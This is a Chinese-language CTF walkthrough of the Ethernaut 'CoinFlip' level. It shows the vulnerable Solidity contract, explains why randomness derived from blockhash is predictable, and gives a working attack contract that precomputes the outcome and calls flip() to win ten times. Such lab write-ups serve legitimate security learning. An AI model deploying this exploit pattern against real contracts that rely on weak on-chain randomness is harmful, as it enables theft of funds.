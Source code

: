 3_CoinFlip
=
本关要求
--

  1.This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.  

合约代码
--
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract CoinFlip {

      using SafeMath for uint256;
      uint256 public consecutiveWins;
      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

      constructor() public {
        consecutiveWins = 0;
      }

      function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          consecutiveWins++;
          return true;
        } else {
          consecutiveWins = 0;
          return false;
        }
      }
    }  
分析
--
本关要求我们预测对10次硬币的正反  
查看<code>flip</code>方法可知，<code>coinFlip</code>的值决定硬币正反，<code>coinFlip</code>的值通过<code>blockValue.div(FACTOR)</code>计算得到  
<code>blockValue</code>的值为进行预测时当前区块的<code>blockhash</code>  
因为<code>FACTOR</code>的值为常量，所以如果能提前预知<code>blockValue</code>的值，就能预测硬币的正反  
因为有<code>if (lastHash == blockValue)</code>的判断，同一个区块的合约只能提交一次。所以我们采用合约调用的方法，先在我们编写的合约内计算硬币的正反，再调用本关合约，提交预测的结果  
编写攻击合约代码  
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";


    // 被调用合约接口
    interface CoinFlipInterface {
        function flip(bool _guess) external returns (bool);
    }

    // 攻击合约
    contract CoinFlipAttack{

        using SafeMath for uint256;
        address private addr;
        CoinFlipInterface cf_interface;

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor(address _addr) public {
            addr = _addr;
            //cf_ins = CoinFlip(_addr);
            cf_interface = CoinFlipInterface(_addr);
        }

    // 使用本关合约相同代码计算硬币正反
        function getSide() private view returns  (bool) {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;
            return side;
        }

    // 调用接口实例
        function attack() public {
            bool side = getSide();
            cf_interface.flip(side);
        }

    }

查看预测结果，攻击成功  
![图片](https://user-images.githubusercontent.com/35074461/196593086-7c9df5e9-68d1-4506-bbf0-8f0bca4cb16b.png)  
继续提交直至成功10次，完成本关  
![图片](https://user-images.githubusercontent.com/35074461/196594859-f4bf89a1-d10e-4ddb-a385-5b65c870b061.png)  
